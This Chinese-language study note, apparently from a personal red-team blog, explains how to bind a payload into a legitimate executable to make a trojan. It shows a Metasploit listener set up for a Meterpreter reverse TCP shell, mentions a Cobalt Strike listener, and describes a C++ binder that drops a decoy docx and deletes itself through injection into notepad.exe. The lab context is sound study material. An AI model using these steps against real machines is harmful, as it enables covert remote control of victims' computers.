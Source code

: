- `-f`： 捆绑的文件类型，这里是一个exe文件

- `-b`:  指定需要避开的坏字符（通常是由于这些字符在payload中会引起问题）

  这里是避免使用`\x00`（null字节）、`\x0a`（换行符）和`\x0d`（回车符）。

- `-x`：指定捆绑的文件路径

- `-o`：指定生成木马的文件路径

![image-20240717144916986](http://cdn.ayusummer233.top/DailyNotes/202407171449258.png)

`msconsole` 起监听

```bash
msfconsole
msf6 > use multi/handler
[*] Using configured payload generic/shell_reverse_http
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
payload => windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set lhost 100.1.1.131
lhost => 100.1.1.131
msf6 exploit(multi/handler) > set lport 55555
lport => 55555
msf6 exploit(multi/handler) > run
```

靶机执行生成的捆绑程序即可上线

![image-20240717162355294](http://cdn.ayusummer233.top/DailyNotes/202407171623638.png)

---

或者 CS 起个 http 监听器挂在 55555 端口, 靶机运行捆绑木马即可上线 CS

![image-20240717162459264](http://cdn.ayusummer233.top/DailyNotes/202407171624408.png)

---

## cpp实现捆绑程序(TODO)

> [奇安信攻防社区-关于文件捆绑的实现 (butian.net)](https://forum.butian.net/share/1778)
>
> https://chatgpt.com/share/a5f99e0a-eec2-4616-9d24-dafde74733f1

上述文章中作者编写了如下程序, 运行该程序会创建一个新的 `.docx` 文件，并将资源文件的内容写入该文件。

打开 `.docx` 文件。

创建一个 `notepad.exe` 进程，并将删除当前程序的操作注入到该进程中，从而实现自删除功能。

当前程序实现的效果是执行 exe 后读取并生成 docx 文件然后删除 exe 文件, 需要后续修改来调用其他捆绑程序, 或者直接在当前项目中编写恶意行为

![image-20240719153446495](http://cdn.ayusummer233.top/DailyNotes/202407191534695.png)

---
